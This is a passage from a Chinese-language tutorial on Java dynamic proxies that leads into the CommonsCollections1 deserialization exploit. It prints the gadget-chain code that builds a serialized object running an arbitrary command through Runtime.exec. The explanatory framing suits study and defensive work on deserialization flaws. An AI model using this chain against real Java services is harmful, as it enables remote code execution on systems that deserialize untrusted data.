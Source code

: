 在代理对象某方法时，它会先去对应的`InvocationHandler`继承类中调用`invoke()`方法，而在`invoke()`方法中我们修改了原本的实现逻辑。因此，运行结果如下：

```powershell
"C:\Program Files\Java\jdk1.8.0_172\bin\java.exe" ...
代理登录游戏！
玩家 sunwukong 已经登录.

Process finished with exit code 0
```

一般使用JDK原生动态代理的编写模式如下图：

![](proxy.png)

上图中Subject是一个接口，真正的实现类RealSubject和代理类Proxy都实现了这一接口。只不过在使用`Proxy.newProxyInstance()`时不用实际创建代理类；另外，通过`InvocationHandler`接口的`invoke()`方法来修改真实类的方法时要注意：**它只能修改原接口定义过的方法，而无法修改实现类新加的方法**。

## `AnnotationInvocationHandler`类

这个类被用在了CommonsCollections1的Payload中，算是反序列化过程中的第一环。而它的实现正是依靠Jdk动态代理技术，先贴一下生成序列化对象的代码段：

```java
// 依赖于Common-Collections3.1及以前的类
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

public InvocationHandler getObject(final String command) throws Exception {
    
    final String[] execArgs = new String[] { command };
    
    // 对ChainedTransformer做初始化，主要是iTransformers字段赋值
    // 但在代码的后半部分又将该字段替换成了真实的攻击链，其实我也不懂眼下这段话的意思
    // 反正你直接拿真实的攻击链初始化ChainedTransformer对象也没问题
    final Transformer transformerChain = new ChainedTransformer(
        new Transformer[]{ new ConstantTransformer(1) });
    
    // 真实的攻击链
    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
                               new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    final Map innerMap = new HashMap();

    // decorate是一个LazyMap类的静态方法，其中调用了LazyMap构造函数来初始化
    final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
	// 创建lazyMap的代理对象
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
	// 创建AnnotationInvacationHandler对象的实例
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
	// 利用反射机制将iTransformers字段替换成真的攻击链
    Reflections.setFieldValue(transformerChain, "iTransformers", transformers); 
    
    return handler;
}
```